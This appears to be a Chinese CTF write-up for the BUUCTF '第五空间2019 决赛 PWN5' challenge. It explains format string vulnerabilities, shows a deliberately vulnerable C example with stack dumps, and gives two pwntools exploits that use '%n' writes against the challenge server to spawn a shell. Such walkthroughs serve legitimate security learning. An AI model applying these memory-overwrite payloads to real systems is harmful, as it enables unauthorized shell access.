

[第五空间2019 决赛] PWN5 [BUUCTF]
Table of Contents
格式化字符串漏洞
先来简单讲讲什么是格式化字符串漏洞
格式化字符串和格式化字符串函数
格式化字符串（Format String）是一些程序设计语言的输入/输出库中能将字符串参数转换为另一种形式输出的函数。
格式化字符串函数则是一种可以接受可变数量的参数，并将第一个参数作为格式化字符串，根据其来解析之后的参数的函数。
举个例子，C语言中的printf函数就是一种典型的格式化字符串函数，而标准printf函数写法中第一个参数（图中标红部分）就是格式化字符串

在C和C++中常见的格式化字符串函数有
- 输入
scanf：从stdin中读取
- 输出
printf：输出到stdoutfprintf：输出到指定的FILE流vprintf：根据参数列表格式化输出到stdoutvfprintf：根据参数列表格式化输出到指定 FILE 流sprintf：输出到字符串snprintf：输出指定字节数到字符串vsprintf：根据参数列表格式化输出到字符串vsnprintf：根据参数列表格式化输出指定字节到字符串setproctitle：设置 argvsyslog：输出日志err，verr，warn，vwarn等等
C和C++格式化字符串中格式化占位符（format placeholder）的语法如下：
%[parameter][flags][field width][.precision][length]type
这里贴出维基百科里格式化字符串各占位符的详解
格式化字符串漏洞原理
基本原理
依旧以printf函数为例
进入printf函数之前程序的栈如下
00:0000│ esp 0xffffce1c —▸ 0x80491b9 (main+67) ◂— add esp, 0x20
01:0004│ 0xffffce20 —▸ 0x804a00c ◂— 'Color %s, Number %d, Float %4.2f'
02:0008│ 0xffffce24 —▸ 0x804a008 ◂— 0x646572 /* 'red' */
03:000c│ 0xffffce28 ◂— 0x1e240
04:0010│ 0xffffce2c ◂— 0x51eb851f
05:0014│ 0xffffce30 ◂— 0x40091eb8
06:0018│ 0xffffce34 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
07:001c│ 0xffffce38 —▸ 0xf7fbeb10 —▸ 0xf7d98cc6 ◂— 'GLIBC_PRIVATE'
因为x86架构下程序栈从高地址向低地址生长，所以我们可以看到栈上由高地址到低地址的布局如下：
some value
3.14（0x51eb851f）
123456（0x1e240）
addr of "red"
addr of format string: Color %s, Number %d, Float %4.2f
由于printf函数是一个可变参数函数，在关闭gcc保护的情况下我们可以编译只传入一个参数的printf函数，比如
printf("Color %s, Number %d, Float %4.2f");
在这种情况下printf函数会照常运行，此时就会将栈上第一个参数（格式化字符串）上面的三个参数分别解析为地址对应的字符串、整型数值、浮点数值并输出
漏洞利用
这个漏洞涉及对内存的各种操作，篇幅较长，故在这里只介绍跟本题有关的利用方式
首先来介绍一下几个常用的格式化占位符
%n$x（n为某一数值，x为某个占位符）可以对栈上第n个参数进行相应占位符的操作%x、%p可以用来获取对应栈的内存，后者可以不用考虑位数区别%s可以用来获取对应栈的内容，注意有零截断%n可以将对应栈上的指针指向的内存内容修改为在它之前输入的字符数量
好了，现在来看一个简单的例子
#include <stdio.h>
int main() {
char s[100];
int a = 1, b = 0x22222222, c = -1;
scanf("%s", s);
printf("%08x.%08x.%08x.%s\n", a, b, c, s);
printf(s);
return 0;
}
在Linux下用gcc将程序编译为32位ELF文件
$ gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
leakmemory.c: In function ‘main’:
leakmemory.c:8:12: warning: format not a string literal and no format arguments [-Wformat-security]
8 | printf(s);
| ^
简单运行一下
$ ./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffcfc400.000000c2.f765a6bb
可以看到栈中的内存就被泄露出来了
限于篇幅这里只做简单的演示，实际上这个漏洞有很大的利用空间，比如修改内存、修改GOT表、修改PLT表等等
题目
解题过程
拿到一个ELF文件，先file一下看看
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a8aa744920dda62e84d44fcc440c05f31c4c23d, stripped
是个32位文件，再来checksec检查一下有没有写保护
[*] '/mnt/c/Users/asuka/Desktop/CTF/BUU/pwn/5spacepwn5/pwn'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x8048000)
看来在编译的时候被写上了栈溢出保护
拖到32位IDA反编译看看
int __cdecl main(int a1)
{
unsigned int v1; // eax
int result; // eax
int fd; // [esp+0h] [ebp-84h]
char nptr[16]; // [esp+4h] [ebp-80h] BYREF
char buf[100]; // [esp+14h] [ebp-70h] BYREF
unsigned int v6; // [esp+78h] [ebp-Ch]
int *v7; // [esp+7Ch] [ebp-8h]
v7 = &a1;
v6 = __readgsdword(0x14u);
setvbuf(stdout, 0, 2, 0);
v1 = time(0);
srand(v1);
fd = open("/dev/urandom", 0);
read(fd, &dword_804C044, 4u);
printf("your name:");
read(0, buf, 0x63u);
printf("Hello,");
printf(buf);
printf("your passwd:");
read(0, nptr, 0xFu);
if ( atoi(nptr) == dword_804C044 )
{
puts("ok!!");
system("/bin/sh");
}
else
{
puts("fail");
}
result = 0;
if ( __readgsdword(0x14u) != v6 )
sub_80493D0();
return result;
}
程序的大致意思是用户输入名字和密码，如果密码和程序在系统文件中获取的随机数dword_804C044相等则打开shell
既然随机数我们无法获取，那么我们干脆将随机数修改为我们指定的值不就好了
观察程序，不难发现程序有个没按标准传参的printf(buf)，因此我们可以利用它来修改内存
gdb在printf下断点调试看看程序栈的分布
pwndbg> stack 24
00:0000│ esp 0xffffcdcc —▸ 0x80492b2 ◂— add esp, 0x10
01:0004│ 0xffffcdd0 —▸ 0x804a020 ◂— 'Hello,'
02:0008│ 0xffffcdd4 —▸ 0xffffcdf8 ◂— 0x41414141 ('AAAA')
03:000c│ 0xffffcdd8 ◂— 0x63 /* 'c' */
04:0010│ 0xffffcddc ◂— 0x0
05:0014│ 0xffffcde0 —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— 0x0
06:0018│ 0xffffcde4 ◂— 0x3
07:001c│ 0xffffcde8 —▸ 0xf7fbe7b0 —▸ 0x804837f ◂— 'GLIBC_2.0'
08:0020│ 0xffffcdec ◂— 0x1
09:0024│ 0xffffcdf0 ◂— 0x0
0a:0028│ 0xffffcdf4 ◂— 0x1
0b:002c│ ecx 0xffffcdf8 ◂— 0x41414141 ('AAAA')
0c:0030│ 0xffffcdfc —▸ 0xf7ffd00a (_GLOBAL_OFFSET_TABLE_+10) ◂— 0xc3a00000
0d:0034│ 0xffffce00 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
0e:0038│ 0xffffce04 ◂— 0xffffffff
0f:003c│ 0xffffce08 —▸ 0x8048034 ◂— 0x6
10:0040│ 0xffffce0c —▸ 0xf7fc66d0 ◂— 0xe
11:0044│ 0xffffce10 —▸ 0xf7ffd608 (_rtld_global+1512) —▸ 0xf7fc6000 ◂— 0x464c457f
12:0048│ 0xffffce14 ◂— 0x20 /* ' ' */
13:004c│ 0xffffce18 ◂— 0x0
14:0050│ 0xffffce1c —▸ 0xffffcf9c ◂— 0x20 /* ' ' */
15:0054│ 0xffffce20 ◂— 0x0
... ↓ 2 skipped
可以看到我们输入的内容是函数的第10个参数，偏移量为10
又在IDA中观察到dword_804C044的地址是0x804C044
大体方向清楚了，现在我们就可以写payload了
EXP
from pwn import *
p=remote('node4.buuoj.cn',25038)
# p=process('./pwn')
adr = 0x804c044
payload = p32(adr)+'%10$n'
p.sendline(payload)
p.sendline(str(0x4))
p.interactive()
# flag{afc6dd95-5d8e-496c-b029-e30d56c5921b}
我们对buf先传入dword_804C044的地址，紧接着传入格式化占位符%10$n，然后对nptr传入我们的修改值0x04，完成比较并成功调用system("/bin/sh");获得shell
这样做的目的在于将目标地址写入栈中第10个参数也就是我们的输入中，并利用占位符访问第10个参数的内容指向的地址并修改为相应的值0x04（因为是32位，一个地址长4位，%n写入值0x04），这时再将密码输入为0x40就完成了判断
当然，你也可以这样写
from pwn import *
p=remote('node4.buuoj.cn',25038)
# p=process('./pwn')
adr = 0x804c044
payload = p32(adr)+p32(adr+1)+p32(adr+2)+p32(adr+3)+'%10$n%11$n%12$n%13$n'
p.sendline(payload)
p.sendline(str(0x10101010))
p.interactive()
因为这时读入了四个地址，全长16位，所以四个%n都将写入0x10，也就是0x10101010
杂谈
这是我入坑pwn以来学习的第二个漏洞，也许是因为对老手来说太基础，网上的wp都不讲人话，困扰了我整整两天；这回终于被我搞懂了，熬夜也要赶紧记下来免得忘了（悲）
这道题其实还有另一种解法，是利用pwntools的fmtstr_payload函数直接修改内容，等我搞懂了再来补充
pwn是真的难，基础知识又多又底层，一周干完实模式汇编去看操作系统结果发现人用的保护模式，看得我头昏脑涨，无奈跑回去看CSAPP（不得不说是本神书，处在不同的水平看都会有不同的收获），现在属于CSAPP、操作系统、编译原理三线程并行，以后还想跟着书写个小OS加深理解，希望到期末我还能活下来吧（）
这张图很好地诠释了我现在的心理状态
快两点了，明天早八，睡了反转了，英语网课（喜）
参考
-
[BUUCTF](https://buuoj.cn/challenges#[第五空间2019 决赛]PWN5)
-
CSDN
- [第五空间2019 决赛]PWN5 ——两种解法
- [writeUP-第五空间2019 决赛]PWN5(待进一步完善待研究内容)
- [[BUUCTF]PWN——[第五空间2019 决赛]PWN5](https://blog.csdn.net/BangSen1/article/details/115191602?ops_request_misc=%7B%22request%5Fid%22%3A%22166609852016782428676118%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=166609852016782428676118&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~hot_rank-12-115191602-null-null.142^v59^pc_rank_34_1,201^v3^control_2&utm_term=第五空间2019 决赛]PWN5&spm=1018.2226.3001.4187)
- [[第五空间2019 决赛]PWN5](https://blog.csdn.net/weixin_56301399/article/details/125919683?ops_request_misc=%7B%22request%5Fid%22%3A%22166609852016782428676118%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=166609852016782428676118&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~hot_rank-1-125919683-null-null.142^v59^pc_rank_34_1,201^v3^control_2&utm_term=第五空间2019 决赛]PWN5&spm=1018.2226.3001.4187)